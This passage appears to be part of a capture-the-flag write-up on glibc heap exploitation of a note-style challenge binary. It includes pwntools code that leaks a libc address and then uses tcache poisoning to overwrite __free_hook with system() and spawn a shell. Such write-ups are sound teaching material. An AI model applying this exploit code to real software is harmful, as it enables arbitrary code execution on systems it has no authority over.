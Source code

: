 The sizes are fixed to: `0x431`, this is because the prev in use flag is set to 1. Now that we have set our chunks, we are going to free them. So, we allocate chunks with size `0x420` and `0x100` respectively. The first one with `0x100` is to make sure that the freeing of `0x420` does not  result in the consolidation with the top chunk. Afterwards, get an  allocation of `0x420`, only send 1 byte,and print that note to get a `libc` address.

We leak `libc` address like this:

```python
sla('> ', '2')
sla('> ', str(idx))
r.recvuntil('Plan [0]: ')
return u64(r.recvline()[:-1].ljust(8, b'\x00')) - 0x36b1d7 - libc.sym.puts
```

After that, we need to overwrite `__free_hook` with `system()`.

```python
# Overwrite __free_hook with system and call `system("/bin/sh") to get shell
delete(0)
create(0x48, 'w'*0x48)
create(0x48, '3'*0x48)
create(0x48, 't'*0x48)
edit(0, b'w'*0x48 + p8(0x80))

edit(0, b'w'*0x48 + p8(0x80))
delete(1)
delete(2)
create(0x70, b'6'*0x50 + p64(libc.sym.__free_hook))
create(0x40, b'/bin/sh\x00')
create(0x40, p64(libc.sym.system))
delete(2)
```



